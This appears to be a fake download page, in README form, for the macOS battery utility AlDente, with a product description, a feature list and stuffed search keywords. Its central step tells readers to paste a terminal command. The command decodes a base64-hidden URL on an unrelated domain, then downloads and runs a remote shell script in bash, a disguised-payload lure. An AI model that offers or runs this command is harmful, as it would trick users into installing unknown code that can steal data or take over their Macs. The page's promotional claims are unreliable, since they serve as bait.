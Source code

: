 # AlDente Mac Download - Intelligent Battery Management Tool  

![AlDente Screenshot](https://apphousekitchen.com/wp-content/uploads/2021/05/AlDente-3-1024x576.png)  

---  

### 🔽 Download AlDente for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

--- 

## What is AlDente for Mac?  

AlDente is an innovative battery optimization utility designed specifically for macOS that revolutionizes how you manage your MacBook's battery health. Unlike Apple's basic battery management system, AlDente provides granular control over charging behavior, allowing users to set custom charge limits between 20-100% to significantly extend battery lifespan.  

This powerful tool is particularly valuable for users who frequently work with their MacBooks plugged in for extended periods, as it prevents the common issue of battery degradation caused by continuous 100% charging. AlDente works seamlessly in the background, monitoring your battery status while consuming minimal system resources.  

The application features an intuitive interface with real-time battery statistics, including current charge level, cycle count, and temperature monitoring. Advanced users can access additional pro features like discharge mode, which helps calibrate battery sensors, and sailing mode that maintains optimal charge levels.  

For creative professionals, developers, and anyone who relies on their MacBook for daily work, AlDente offers peace of mind by preserving battery health and maintaining peak performance over years of use. The tool is compatible with all Intel and Apple Silicon MacBooks running modern versions of macOS.  

![AlDente Interface](https://apphousekitchen.com/wp-content/uploads/2021/05/AlDente-Pro-1024x576.png)  

---  

## Key Features & Benefits  

- 🔋 Customizable charge limiting (20-100%)  
- ⚡ Advanced battery health preservation  
- 📊 Real-time battery statistics monitoring  
- 🛠️ Discharge and sailing modes for calibration  
- 🌡️ Temperature tracking and alerts  
- 💻 Lightweight background operation  

Optimize your MacBook's battery lifespan with AlDente's intelligent charging management.  

---  

## 🔍 Keywords  

AlDente for Mac, AlDente Mac Download, AlDente for Mac Download, AlDente Mac, AlDente Download Mac, AlDente Download for Mac, AlDente full version, Mac Download AlDente, Download Mac AlDente, Download AlDente Mac, Download AlDente for Mac
